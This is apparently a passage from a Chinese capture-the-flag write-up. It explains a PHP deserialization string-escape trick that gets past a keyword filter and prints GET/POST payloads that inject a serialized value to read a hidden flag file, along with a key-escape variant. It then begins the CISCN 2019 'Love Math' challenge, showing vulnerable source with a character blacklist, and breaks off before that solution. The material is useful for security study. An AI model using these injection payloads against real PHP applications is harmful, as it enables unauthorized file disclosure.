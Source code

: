 	function filter($img){
	    $filter_arr = array('php','flag','php5','php4','fl1g');
	    $filter = '/'.implode('|',$filter_arr).'/i';
	    return preg_replace($filter,'',$img);
	}
	$_SESSION["user"] = 'flagflagflagflagflagflag';
	$_SESSION['function'] = 'a";s:3:"img";s:3:"yes";s:2:"aa";s:2:"bb";}';
	
	$_SESSION['img'] = base64_encode('guest_img.png');
	
	$b=serialize($_SESSION);
	
	echo $b;
	
	$c=filter($b);
	
	var_dump(unserialize($c));

	```
	
3. 具体化到题目中就是payload
	`GET： ?f=show_image`
	`POST: _SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"aa";s:2:"bb";}`
	
	![在这里插入图片描述](https://img-blog.csdnimg.cn/e0a4c212dc714cd88cb2706548e7e5b3.png)
替换base64值为该文件的就能得到flag

也可以用键逃逸
	
	payload:_SESSION['flagflag']=";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
	a:1:{s:8:"";s:51:"";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";}

# [CISCN 2019 初赛]Love Math

>[学习链接](https://www.cnblogs.com/shenjuxian/p/13886353.html)

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
```